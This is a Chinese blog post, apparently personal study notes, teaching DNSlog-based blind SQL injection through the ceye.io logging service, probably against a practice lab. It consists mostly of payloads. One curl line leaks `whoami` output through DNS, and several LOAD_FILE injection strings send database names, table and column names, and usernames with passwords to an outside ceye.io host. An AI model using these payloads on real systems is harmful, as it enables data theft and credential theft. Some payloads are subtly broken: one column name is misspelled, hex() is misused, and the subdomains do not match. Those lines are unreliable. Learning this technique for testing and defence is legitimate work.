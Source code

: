```yaml
---
layout: post
title: "1.3.3-SQL注入-SQL盲注-Dnslog盲注"
date: 2018-06-23
category: web安全
tags: sql注入 sql盲注
---
```


> 需要目标机器时windows系统

## DnsLog盲注

### DnsLog盲注原理
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/01.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/02.jpeg)
Dnslog平台：http://ceye.io/  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/03.jpeg)



	http://ceye.io/profile
	curl mzq83x.ceye.io

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/05.png)


	curl `whoami`.mzq83x.ceye.io


![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/06.jpeg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/04.jpeg)




![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/07.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/08.jpeg)

### DnsLog盲注方法
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/09.jpeg)

	核心语法： SELECT LOAD_FILE(CONCAT('\\\\',(select database()),'.mysql.r5ourp.ceye.io\\abc'));
	sql语句不能含有特殊符号

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/10.jpeg)

	查表
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.mysql.r5oup.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/11.jpeg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/12.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select colum_name from information_schema.columns where table_name='users' limit 5,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/13.jpeg)
	
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat(username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/14.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat_ws('A',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/15.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/16.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select hex('~',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/17.jpeg)




![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/18.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/19.jpeg)

https://github.com/ADOOO/DnslogSqlinj